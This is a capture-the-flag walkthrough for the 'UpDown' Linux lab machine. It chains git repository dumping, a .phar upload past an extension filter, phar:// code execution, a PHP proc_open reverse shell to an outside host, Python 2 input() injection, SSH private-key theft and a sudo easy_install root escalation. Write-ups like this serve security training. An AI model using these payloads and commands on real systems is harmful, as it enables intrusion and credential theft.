




# UpDown

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">.git exposure</span>
<span class="wu-tag">PHAR upload</span>
<span class="wu-tag">phar:// RCE</span>
<span class="wu-tag">sudo GTFOBins</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    UpDown is a web-heavy box that plays to application testing instincts. An exposed `.git` repo reveals a hidden dev vHost gated behind a custom HTTP header, a file upload filter that forgets about `.phar`, and a PHP `phar://` wrapper that turns a page parameter into code execution. From there it is a legacy Python `input()` bug and a GTFOBins `easy_install` sudo rule to reach root.

## Attack path

1. Dump an exposed `.git` repo, recover the secret dev header, and reach the blocked dev site.
2. Abuse a `.phar` upload plus the `phar://` wrapper to bypass disabled functions and land a reverse shell as `www-data`.
3. Exploit a Python 2 `input()` call to become `developer`, then abuse `sudo easy_install` to become root.

**Tools:** ffuf, gobuster, git-dumper, Burp Suite, dfunc-bypasser, GTFOBins.

## Enumeration

**Target:** `10.10.11.177`

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.177 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
nmap -p$ports -sV 10.10.11.177
```

<figure class="wu-evidence" markdown>

<figcaption>The initial scan exposes only SSH and HTTP, making the web application the clear starting point.</figcaption>
</figure>

Only 22 (SSH) and 80 (HTTP) are open. The site advertises `siteisup.htb`, so add it to `/etc/hosts`:

```bash
echo "10.10.11.177 siteisup.htb" | sudo tee -a /etc/hosts
```

### The web app

The site checks whether another site is up. Pointing it at the loopback address with debug on shows it just makes an HTTP request and echoes the response, which is worth remembering later.

<figure class="wu-evidence" markdown>

<figcaption>Debug mode confirms that the application fetches a supplied URL and reflects the remote response.</figcaption>
</figure>

Fuzz for subdomains. Every host returns `200 OK`, so filter out the common response size to find the real one:

```bash
ffuf -u http://siteisup.htb -H "Host: FUZZ.siteisup.htb" -w /usr/share/wordlists/subdomains.txt -fs 1131
```

That returns `dev`. Add `dev.siteisup.htb` to `/etc/hosts`, but visiting it just returns a permissions error, so set it aside and fuzz directories on the main site:

```bash
gobuster dir -u http://siteisup.htb/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt
```

The `dev` directory exposes `.git/HEAD`. Dump the repository:

```bash
git-dumper http://siteisup.htb/dev/.git dev
```

Review `.htaccess` in the dumped repo. It gates the dev site behind a custom HTTP header:

??? success "Secret dev header from .htaccess"
    `Special-Dev: only4dev`

<figure class="wu-evidence" markdown>

<figcaption>The dumped <code>.htaccess</code> discloses both the custom header name and the value required to reach the development site.</figcaption>
</figure>

## Foothold (www-data)

Set that header in Burp (Proxy, Match and Replace) and browse to `http://dev.siteisup.htb` to reach the hidden dev site. It offers file upload. The dumped source shows the filter: it checks the file is under 10 KB, blacklists extensions, and loops the file through the "is it up" check before deleting it. The blacklist blocks `.php` and `.py` but **not** `.phar`, a bundled PHP package format.

<figure class="wu-evidence" markdown>

<figcaption>A Burp match-and-replace rule applies the required header consistently while exploring the hidden development application.</figcaption>
</figure>

Create a PHP file that calls `phpinfo()`, then zip and rename it so the `phar://` wrapper can reach inside:

```bash
echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```

Upload `info.txt`, then execute it through the wrapper:

```
http://dev.siteisup.htb/?page=phar://uploads/FILE_HASH/info.txt/info
```

The `phpinfo()` output confirms execution, but `disabled_functions` blocks the obvious RCE paths. Use [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) to find a function that is still enabled. It needs the custom header, so patch its request line:

```python
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text
```

```bash
python2 dfunc-bypasser.py --url 'http://dev.siteisup.htb/?page=phar://uploads/FILE_HASH/info.txt/info'
```

It reports `proc_open` is available. Build a reverse shell that uses it, saved as `rev.php`:

```php
<?php
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin
1 => array('pipe', 'w'), // stdout
2 => array('pipe', 'a')  // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

Zip and rename it as before, start a listener on 1337, and trigger it through the wrapper:

```bash
zip rev.zip rev.php
mv rev.zip rev.txt
```

```
http://dev.siteisup.htb/?page=phar://uploads/FILE_HASH/rev.txt/rev
```

That returns a shell as `www-data`.

## Lateral movement (developer)

`/etc/passwd` shows a `developer` user. Their home has `users.txt` (not yet readable) and a `dev` directory containing `siteisup` and `siteisup_test.py`. The Python script runs under Python 2 and uses `input()`, which in Python 2 evaluates its argument as code:

```
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
```

That drops a shell as `developer`. `users.txt` is still out of reach, so grab the SSH key instead and log in cleanly:

```bash
cd .ssh
cat id_rsa
```

```bash
nano updown-developer     # paste the key
chmod 600 updown-developer
ssh -i updown-developer developer@siteisup.htb
```

## Root

Check developer's sudo rights:

```bash
sudo -l
# (ALL) NOPASSWD: /usr/local/bin/easy_install
```

[GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/) has a one-step escalation for `easy_install`:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

That returns a root shell and the final flag at `/root/root.txt`.
